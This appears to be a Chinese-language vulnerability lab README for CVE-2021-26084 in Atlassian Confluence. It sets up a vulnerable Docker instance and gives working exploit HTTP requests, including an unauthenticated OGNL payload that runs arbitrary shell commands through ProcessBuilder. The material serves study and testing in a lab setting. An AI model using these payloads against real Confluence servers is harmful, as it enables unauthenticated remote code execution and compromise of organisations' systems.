 # Atlassian Confluence OGNL表达式注入代码执行漏洞（CVE-2021-26084）

Atlassian Confluence是企业广泛使用的wiki系统，其部分版本中存在OGNL表达式注入漏洞。攻击者可以通过这个漏洞，无需任何用户的情况下在目标Confluence中执行任意代码。

参考链接：

- https://confluence.atlassian.com/doc/confluence-security-advisory-2021-08-25-1077906215.html
- https://jira.atlassian.com/browse/CONFSERVER-67940
- https://github.com/httpvoid/writeups/blob/main/Confluence-RCE.md
- https://github.com/h3v0x/CVE-2021-26084_Confluence

## 环境搭建

执行以下命令启动一个Confluence 7.4.10 data center 试用版本服务器：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8090`即可进入安装向导，参考[CVE-2019-3396](https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396)这个环境中的安装方法，申请试用版许可证。在填写数据库信息的页面，PostgreSQL数据库地址为`db`，数据库名称`confluence`，用户名密码均为`postgres`。

![](3.png)

## 漏洞利用

有多个接口可以触发这个OGNL表达式注入漏洞。

### /pages/doenterpagevariables.action

这个接口不需要登录即可利用，发送如下数据包，即可看到`233*233`已被执行：

```
POST /pages/doenterpagevariables.action HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 47

queryString=%5cu0027%2b%7b233*233%7d%2b%5cu0027
```

![](2.png)

执行任意命令：

```
queryString=%5cu0027%2b%7bClass.forName%28%5cu0027javax.script.ScriptEngineManager%5cu0027%29.newInstance%28%29.getEngineByName%28%5cu0027JavaScript%5cu0027%29.%5cu0065val%28%5cu0027var+isWin+%3d+java.lang.System.getProperty%28%5cu0022os.name%5cu0022%29.toLowerCase%28%29.contains%28%5cu0022win%5cu0022%29%3b+var+cmd+%3d+new+java.lang.String%28%5cu0022id%5cu0022%29%3bvar+p+%3d+new+java.lang.ProcessBuilder%28%29%3b+if%28isWin%29%7bp.command%28%5cu0022cmd.exe%5cu0022%2c+%5cu0022%2fc%5cu0022%2c+cmd%29%3b+%7d+else%7bp.command%28%5cu0022bash%5cu0022%2c+%5cu0022-c%5cu0022%2c+cmd%29%3b+%7dp.redirectErrorStream%28true%29%3b+var+process%3d+p.start%28%29%3b+var+inputStreamReader+%3d+new+java.io.InputStreamReader%28process.getInputStream%28%29%29%3b+var+bufferedReader+%3d+new+java.io.BufferedReader%28inputStreamReader%29%3b+var+line+%3d+%5cu0022%5cu0022%3b+var+output+%3d+%5cu0022%5cu0022%3b+while%28%28line+%3d+bufferedReader.readLine%28%29%29+%21%3d+null%29%7boutput+%3d+output+%2b+line+%2b+java.lang.Character.toString%2810%29%3b+%7d%5cu0027%29%7d%2b%5cu0027
```

![](1.png)

### /pages/createpage-entervariables.action

这个路径也不需要用户登录：

```
POST /pages/createpage-entervariables.action HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 47

queryString=%5cu0027%2b%7b233*233%7d%2b%5cu0027
```

### /pages/createpage.action

这个接口需要一个可以创建页面的用户权限：

```
GET /pages/createpage.action?spaceKey=EX&src=quick-create&queryString=%5cu0027%2b%7b233*233%7d%2b%5cu0027 HTTP/1.1
Host: 192.168.1.162:8090
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.162:8090/template/custom/content-editor.vm
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: JSESSIONID=7B35600F54A9E303CE8C277ED960E1E7; seraph.confluence=524289%3A2ac32a308478b9cb9f0e351a12470faa4f2a928a
Connection: close


```
